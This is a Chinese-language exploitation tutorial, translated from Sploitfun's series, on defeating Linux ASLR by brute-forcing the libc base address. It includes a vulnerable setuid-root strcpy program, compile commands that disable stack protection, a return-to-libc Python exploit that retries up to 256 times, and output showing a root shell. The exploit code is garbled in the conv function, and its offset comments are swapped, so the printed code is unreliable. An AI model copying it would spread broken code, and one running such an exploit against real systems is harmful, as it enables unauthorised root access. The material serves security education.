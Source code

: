 CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-绕过ASLR-第二篇章(暴力破解)](http://www.csyssec.org/20170102/bypassaslr-bruteforce)》与作者信息：CSysSec出品  


VM Setup: Ubuntu 12.04(x86)

在这篇文章中，我们来看看如果利用暴力破解技术来绕过共享库的地址随机化。  

## 什么是暴力破解

通过此技术，攻击者选择一个特定的libc基地址，然后不断尝试攻击程序，直到成功。如果你幸运的话，这是绕过ASLR最简单的技术。  

漏洞代码:  

``` c
//vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
 char buf[256];
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 fflush(stdout);
 return 0;
}
```
编译命令：  

``` bash
#echo 2 > /proc/sys/kernel/randomize_va_space
$gcc -fno-stack-protector -g -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```
现在让我们来看看攻击者是如何暴力破解libc基地址的。下面是当开启随机化时，libc不同的基地址：   

```
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b6000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7568000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7595000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75d9000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7542000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb756a000)
$
```
从上面可知，libc的随机化只局限在8个比特位中。因此，最多只要尝试256次，就可以获取root shell。下面的漏洞利用代码中，选择0xb7595000作为libc的基地址，然后我们再不断尝试  

漏洞利用代码：  

``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
libc_base_addr = 0xb7595000
exit_off = 0x00032be0             #Obtained from "readelf -s libc.so.6 | grep system" command.
system_off = 0x0003f060           #Obtained from "readelf -s libc.so.6 | grep exit" command.
system_addr = libc_base_addr + system_off
exit_addr = libc_base_addr + exit_off
system_arg = 0x804827d
#endianess convertion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 268
buf += conv(system_addr)
buf += conv(exit_addr)
buf += conv(system_arg)
print "Calling vulnerable program"
#Multiple tries until we get lucky
i = 0
while (i < 256):
 print "Number of tries: %d" %i
 i += 1
 ret = call(["./vuln", buf])
 if (not ret):
  break
 else:
  print "Exploit failed"
```
执行上面的漏洞利用代码就可以获取root shell，如下所示  

``` bash
$ python exp.py 
Calling vulnerable program
Number of tries: 0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]��{\�}�
Exploit failed
...
Number of tries: 42
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]��{\�}�
Exploit failed
Number of tries: 43
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]��{\�}�
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
注意： 类似地，栈地址和堆地址也可以暴力破解！  

